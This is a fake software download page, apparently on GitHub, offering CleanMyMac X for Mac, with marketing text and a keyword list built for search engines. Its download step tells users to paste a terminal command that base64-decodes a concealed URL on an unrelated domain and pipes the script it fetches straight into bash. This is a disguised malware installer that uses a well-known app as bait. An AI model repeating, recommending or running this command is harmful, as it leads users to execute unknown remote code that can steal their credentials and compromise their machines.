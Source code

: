# CleanMyMac X Download - Optimization & Cleaning Tool

![CleanMyMac X Screenshot](https://cdn.macpaw.com/images/products/cleanmymac/cleanmymac-x@2x.png)

---

### 🔽 Download CleanMyMac X for Mac

> 📥 Open the terminal on your device and paste the command below.
```
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQ1L2luc3RhbGwuc2g= | base64 -d))"
```

---

## What is CleanMyMac X for Mac?

CleanMyMac X is the ultimate optimization utility designed specifically for macOS systems. This powerful application helps users maintain their Mac computers in perfect condition by removing unnecessary files, optimizing system performance, and protecting privacy. Developed by MacPaw, CleanMyMac X has become an essential tool for millions of Mac users worldwide who want to keep their systems running smoothly.

The software offers a comprehensive suite of cleaning tools that go far beyond basic disk cleanup. It intelligently scans your system for various types of junk files including system cache, user cache, language files, duplicate items, and old attachments. What sets CleanMyMac X apart is its smart scanning technology that safely identifies files that can be removed without affecting system stability.

Beyond cleaning, CleanMyMac X provides powerful maintenance tools that can help speed up your Mac by running maintenance scripts, freeing up RAM, and managing startup items. The application also includes specialized tools for complete app uninstallation, malware detection and removal, and sensitive data protection. With its intuitive interface and one-click solutions, CleanMyMac X makes system optimization accessible to users of all experience levels.

For creative professionals and power users, CleanMyMac X offers advanced features like large file management, space visualization, and email attachment cleanup. The application is regularly updated to support the latest macOS versions and works seamlessly with both Intel and Apple Silicon Macs.

---

## Key Features & Benefits

- 🗑️ Comprehensive system cleanup removing gigabytes of junk files
- ⚡ Performance optimization tools to speed up your Mac
- 🛡️ Built-in malware protection and removal
- 📊 Real-time system monitoring dashboard
- 🔒 Privacy protection with secure file deletion
- 🚀 Easy-to-use interface with smart recommendations

Keep your Mac running like new with CleanMyMac X's powerful optimization tools!

---

## 🔍 Keywords

CleanMyMac X, CleanMyMac X Mac Download, CleanMyMac X for Mac Download, CleanMyMac X Mac, CleanMyMac X Download Mac, CleanMyMac X Download for Mac, CleanMyMac X full version, Mac Download CleanMyMac X, Download Mac CleanMyMac X, Download CleanMyMac X Mac, Download CleanMyMac X for Mac
